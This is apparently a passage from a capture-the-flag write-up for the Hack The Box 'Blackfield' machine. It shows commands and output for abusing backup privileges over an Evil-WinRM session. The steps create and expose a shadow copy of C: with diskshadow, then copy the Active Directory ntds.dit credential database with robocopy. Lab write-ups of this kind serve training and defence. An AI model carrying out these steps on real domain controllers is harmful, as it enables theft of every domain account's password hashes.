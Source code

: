 ```bash
# write a diskshadow script
$ cat diskshadow_script
set context persistent nowriters
add volume c: alias random
create
expose %random% z:

# convert file into a Windows-compatible format
$ sudo unix2dos diskshadow_script
unix2dos: converting file diskshadow_script to DOS format...
```

Next, within the WinRM session:

```bash
# upload script
*Evil-WinRM* PS C:\Users\svc_backup\Documents> upload diskshadow_script

Info: Uploading /home/kali/htb/ad_track/diskshadow_script to C:\Users\svc_backup\Documents\diskshadow_script

Data: 120 bytes of 120 bytes copied

Info: Upload successful!

# move within a writeable directory
*Evil-WinRM* PS C:\Windows\Temp> cd c:\windows\temp

# expose the shadow copy
*Evil-WinRM* PS C:\Windows\Temp> diskshadow /s diskshadow_script
Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  3/21/2024 6:40:33 AM

-> set context persistent nowriters
-> add volume c: alias random
-> create
Alias random for shadow ID {c1b9f0fc-55fe-4df8-b9d6-cc09d5be207a} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {b33e3fe9-4ce7-481a-8ce7-968ce59f77ec} set as environment variable.

Querying all shadow copies with the shadow copy set ID {b33e3fe9-4ce7-481a-8ce7-968ce59f77ec}

        * Shadow copy ID = {c1b9f0fc-55fe-4df8-b9d6-cc09d5be207a}               %random%
                - Shadow copy set: {b33e3fe9-4ce7-481a-8ce7-968ce59f77ec}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{6cd5140b-0000-0000-0000-602200000000}\ [C:\]
                - Creation time: 3/21/2024 6:40:34 AM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
                - Originating machine: DC01.BLACKFIELD.local
                - Service machine: DC01.BLACKFIELD.local
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
-> expose %random% z:
-> %random% = {c1b9f0fc-55fe-4df8-b9d6-cc09d5be207a}
The shadow copy was successfully exposed as z:\.
->

# copy the ntds.dit database
*Evil-WinRM* PS C:\Windows\Temp> robocopy /b z:\windows\ntds . ntds.dit

```